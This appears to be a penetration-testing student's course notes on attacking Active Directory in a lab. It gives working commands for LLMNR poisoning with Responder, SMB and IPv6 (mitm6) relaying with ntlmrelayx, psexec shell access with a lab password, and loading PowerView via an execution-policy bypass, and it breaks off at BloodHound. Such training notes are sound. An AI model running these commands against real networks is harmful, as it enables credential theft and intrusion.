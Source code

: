 # Practical Ethical Hacking

## Subnetting

[IP Adress Guild site](https://www.ipaddressguide.com/)

[Subnetting sheet](https://drive.google.com/file/d/1ETKH31-E7G-7ntEOlWGZcDZWuukmeHFe/view?usp=sharing)

## Active Directory

[Five way to attack AD](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

1. LLMNR Poisoning

![](../.gitbook/assets/3%20%281%29%20%281%29.png)

Tool: [Responder](https://github.com/SpiderLabs/Responder) Capture the NTLMv2 hases with Responder on eth0.

```text
responder -I eth0 -rdwv
```

Crack the obtained hash using \#Hashcat or \#john

1. SMB Relay attack

   Instead of cracking the hashes gathered from responder, We can repay those hashes to machines and potentially gain access.

Requirements:

* SMB signing must be disabled on the target
* Relayed user credentials must be admin on machine

![](../.gitbook/assets/2-2.png)

Run Responder,

```text
responder -I eth0 -rdwv
```

Tool: [NTLM Relay](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py)

```text
python ntlmrelayx.py -tf targets.txt -smb2support
```

Or

To get Interactive shell

```text
python ntlmrelayx.py -tf targets.txt -smb2support -i
```

Interactive mode will start the Interactive SMB on specific port. As soon as it start Interactive smb set the netcat on that port.

```text
nc 127.0.0.1 1100
```

Checkout more -e, -c etc options of ntlmrelayx

1. Gaining Shell Access

   Prerequisite to get shell, Need smb username/password and user should be local admin

There are multiple ways we have to try, some might not work,

* Use metasploit with windows/smb/psexec
* Use psexec.py _Noicey_

  ```text
  psexec.py marvel.local/fcastel:password1@192.168.0.141
  ```

* psexec\_psh \(Metasploit\)
* smbexec.py
* wmiexec.py
* IPv6 Attack If Ipv6 enabled this attack creates DNS machine for IPv6 addresses. We can use victim machine to login to DC, when victim restart the machine. Once we get victim authenticated we can relay those credentials to LDAP.

Tool : [mitm6](https://github.com/fox-it/mitm6)

```text
mitm6 -d marvel.local
```

also need to set relay attack

```text
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakewpad.marvel.local -l lootme
```

Resources: [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

[https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

**Attacking AD Strategies** 

![](../.gitbook/assets/1.png)

### Post Compromise Enumeration

1. [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

To run PowerView on Victim machine,

```text
powershell -ep bypass

. .\PowerView.ps1
```

_Nothing will showup but it will load the PowerView_

1. Bloodhound

